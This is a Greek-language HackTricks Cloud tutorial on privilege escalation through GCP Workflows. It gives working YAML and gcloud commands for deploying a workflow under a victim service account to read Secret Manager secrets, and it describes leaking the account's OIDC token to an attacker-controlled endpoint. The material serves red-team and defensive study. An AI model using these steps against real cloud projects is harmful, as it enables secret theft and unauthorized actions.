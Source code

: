 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Basic Information:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Όπως γνωρίζω, δεν είναι δυνατόν να αποκτήσετε πρόσβαση σε ένα shell με πρόσβαση στο endpoint μεταδεδομένων που περιέχει τα διαπιστευτήρια SA του SA που επιτίθεται σε ένα Workflow. Ωστόσο, είναι δυνατόν να καταχραστείτε τις άδειες του SA προσθέτοντας τις ενέργειες που πρέπει να εκτελούνται μέσα στο Workflow.

Είναι δυνατόν να βρείτε την τεκμηρίωση των συνδετήρων. Για παράδειγμα, αυτή είναι η [**σελίδα του συνδετήρα Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Στη γραμμή πλοήγησης είναι δυνατόν να βρείτε αρκετούς άλλους συνδετήρες.

Και εδώ μπορείτε να βρείτε ένα παράδειγμα ενός συνδετήρα που εκτυπώνει ένα μυστικό:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Ενημέρωση από το CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Αν δεν έχετε πρόσβαση στο διαδίκτυο, είναι δυνατόν να ενεργοποιήσετε και να δείτε την εκτέλεση ενός Workflow με: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Μπορείτε επίσης να ελέγξετε την έξοδο προηγούμενων εκτελέσεων για να αναζητήσετε ευαίσθητες πληροφορίες
{% endhint %}

Σημειώστε ότι ακόμη και αν λάβετε ένα σφάλμα όπως `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` επειδή δεν έχετε αυτή την άδεια, η ροή εργασίας έχει δημιουργηθεί.

### Διαρροή OIDC token (και OAuth?)

Σύμφωνα [**με τα έγγραφα**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), είναι δυνατόν να χρησιμοποιήσετε βήματα ροής εργασίας που θα στείλουν ένα HTTP αίτημα με το OAuth ή OIDC token. Ωστόσο, όπως και στην περίπτωση του [Cloud Scheduler](gcp-cloudscheduler-privesc.md), το HTTP αίτημα με το Oauth token πρέπει να είναι προς τον διακομιστή `.googleapis.com`.

{% hint style="danger" %}
Επομένως, είναι **δυνατό να διαρρεύσει το OIDC token υποδεικνύοντας ένα HTTP endpoint** που ελέγχεται από τον χρήστη, αλλά για να διαρρεύσει το **OAuth** token θα χρειαστείτε **μια παράκαμψη** για αυτή την προστασία. Ωστόσο, μπορείτε ακόμα να **επικοινωνήσετε με οποιοδήποτε GCP api για να εκτελέσετε ενέργειες εκ μέρους του SA** χρησιμοποιώντας είτε συνδέσμους είτε HTTP αιτήματα με το OAuth token.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Με αυτή την άδεια αντί για `workflows.workflows.create` είναι δυνατή η ενημέρωση ενός ήδη υπάρχοντος workflow και η εκτέλεση των ίδιων επιθέσεων.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
